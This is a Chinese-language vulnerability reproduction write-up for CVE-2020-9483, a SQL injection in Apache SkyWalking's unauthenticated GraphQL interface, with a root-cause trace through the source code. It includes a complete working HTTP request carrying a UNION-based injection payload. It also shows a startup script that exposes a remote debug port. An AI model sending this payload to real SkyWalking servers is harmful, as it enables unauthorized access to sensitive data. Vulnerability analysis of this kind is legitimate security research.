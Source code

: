 # Apache SkyWalking graphql SQL注入漏洞 CVE-2020-9483

## 漏洞描述

腾讯安全威胁情报中心监测到Apache SkyWalking发布更新，修复了一个SQL注入漏洞（编号：CVE-2020-9483）。远程攻击者可通过Apache SkyWalking默认开放的未授权GraphQL接口构造恶意请求包进行注入攻击，成功利用此漏洞可造成敏感数据泄漏。该漏洞等级为高危，腾讯安全专家建议相关企业尽快修复。

## 漏洞影响

```
Apache SkyWalking 6.0.0~6.6.0
Apache SkyWalking 7.0.0
```

## 环境搭建

https://archive.apache.org/dist/skywalking/6.5.0/apache-skywalking-apm-6.5.0.tar.gz

https://archive.apache.org/dist/skywalking/8.3.0/apache-skywalking-apm-6.5.0-src.tgz

## 漏洞复现

下载编译好的源码后，进入bin目录，修改 oapService.sh 通过IDEA进行远程调试

```
for i in "$OAP_HOME"/oap-libs/*.jar
do
    CLASSPATH="$i:$CLASSPATH"
done

OAP_OPTIONS=" -Doap.logDir=${OAP_LOG_DIR}"

eval exec "\"$_RUNJAVA\" ${JAVA_OPTS} ${OAP_OPTIONS} -agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=*:5005 -classpath $CLASSPATH org.apache.skywalking.oap.server.starter.OAPServerStartUp \
        2>${OAP_LOG_DIR}/oap.log 1> /dev/null &"

if [ $? -eq 0 ]; then
    sleep 1
	echo "SkyWalking OAP started successfully!"
else
	echo "SkyWalking OAP started failure!"
	exit 1
```

配置IDEA JVM Debug

![](./images/202205251616557.png)

查看CVE的修复commit寻找修复的地方

![](./images/202205251616973.png)

打下断点并发送Payload请求包

```
POST /graphql HTTP/1.1
Host:
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cache-Control: max-age=0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Length: 416

{
    "query": "query queryData($duration: Duration!) {globalP99: getLinearIntValues(metric: {name: \"all_p99\", id: \"') UNION ALL SELECT NULL,CONCAT('~', H2VERSION(), '~')--\" }, duration: $duration) {  values { value } }}",
    "variables": {
        "duration": {
            "end": "2020-08-07 1418",
            "start": "2020-08-07 1417",
            "step": "MINUTE"
        }
    }
}
```

![](./images/202205251617073.png)

在 org.apache.skywalking.oap.query.graphql.resolver 中我们可以看到参数 metrics.getId() 没有过滤就直接传入 getLinearIntValues

![](./images/202205251617628.png)

跟随来到 org.apache.skywalking.oap.server.core.query.MetricQueryService.getLinearIntValues(MetricQueryService.java:96)

![](./images/202205251617333.png)

来到 org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao.H2MetricsQueryDAO.getLinearIntValues(H2MetricsQueryDAO.java:117)，这里就将拼接的语句带入数据库进行查询，造成SQL注入

![](./images/202205251617486.png)

调用栈如下

```
getLinearIntValues:117, H2MetricsQueryDAO (org.apache.skywalking.oap.server.storage.plugin.jdbc.h2.dao)
getLinearIntValues:96, MetricQueryService (org.apache.skywalking.oap.server.core.query)
getLinearIntValues:60, MetricQuery (org.apache.skywalking.oap.query.graphql.resolver)
execute:87, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:81, GraphQLQueryHandler (org.apache.skywalking.oap.query.graphql)
doPost:54, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:101, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
service:105, JettyJsonHandler (org.apache.skywalking.oap.server.library.server.jetty)
```